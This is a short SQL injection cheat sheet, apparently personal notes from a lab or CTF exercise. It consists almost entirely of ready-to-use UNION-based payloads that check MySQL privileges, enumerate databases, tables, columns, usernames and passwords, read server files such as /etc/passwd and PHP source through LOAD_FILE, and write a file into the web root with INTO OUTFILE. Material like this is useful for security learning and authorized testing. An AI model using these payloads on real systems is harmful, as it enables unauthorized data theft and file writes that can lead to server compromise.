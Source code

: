 `cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -`

`cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -`

Only show privilage our our current root user

- Look for FILE permission, if user have FILE permission then user can read/write file in the system

`cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -`

See which folder have mysql have access to 

- if value is empty then we have read/write access to any location on server. or it will have path where user have read/write permission

`cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -`

### DB Enemurations  (Not so important coz you can find DB, table, coulums names using above method but just know you can do like this manually as well)

`admin123' UNION SELECT 1,2,3;-- `

`admin123' UNION SELECT 1,2,3 where database() like 's%';--`

`admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';--`

`admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name='users';--`

`admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%';`

`admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id';`

`admin123' UNION SELECT 1,2,3 from users where username like 'a%`

`admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%`

## Load File / Read File form server

Read contents of file if user have FILE privilege

`cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -`

You can also try to read source code. However, the page ends up rendering the HTML code within the browser. The HTML source can be viewed by hitting [Ctrl + U].

`cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -`

## Write File to server

`cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -`
